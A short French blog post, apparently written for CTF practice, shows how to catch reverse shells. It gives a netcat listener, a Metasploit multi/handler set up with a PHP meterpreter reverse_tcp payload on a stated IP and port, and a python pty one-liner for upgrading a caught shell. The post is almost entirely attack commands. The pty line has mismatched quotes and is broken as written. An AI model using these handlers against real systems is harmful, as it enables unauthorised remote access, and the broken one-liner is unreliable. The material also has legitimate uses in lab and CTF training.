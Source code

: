 ```yaml
---
layout: post
section-type: post
title: Se mettre sous écoute sur un port
category: exploitation web
tags: [ 'reverse_shell', 'web', 'hacking', 'ctf' ]
---
```


---------------------------------------------
#### Mise en garde
Dans cet article, je vous montre un simple usage de netcat et meterpreter. Pour aller plus loin, RTFM :p 

---------------------------------------------

#### Pré requis 
1-Avoir installer meterpreter pour la Méthode 2 <br/>

---------------------------------------------
#### Méthode 1: Utiliser netcat
  <pre><code data-trim class="yaml">
      #se mettre sous écoute sur le port 1234
      netcat -lvp 1234 
  </code></pre> <br/>
  
  NB: Il n’est pas nécessaire d’avoir les droits "root" pour mettre un port en écoute !
  
---------------------------------------------
#### Méthode 2: Utiliser meterpreter
  <pre><code data-trim class="yaml">
      #se mettre sous écoute sur le port 1234 et l'IP 10.23.201.17 en utilisant le payload php
      msfconsole
      use exploit/multi/handler
      set payload php/meterpreter/reverse_tcp
      set LHOST 10.23.201.17
      set LPORT 1234
      run
  </code></pre> <br/>
     
  NB: Il n’est pas nécessaire d’avoir les droits "root" pour mettre un port en écoute !
  
---------------------------------------------
 #### Aller plus loin
  <pre><code data-trim class="yaml">
    #Faire en sorte que le shell gère les entrées/sorties sans broncher ;)
    python -c 'import pty; pty.spawn('/bin/bash")' 
  </code></pre> <br/>
 
 ---------------------------------------------
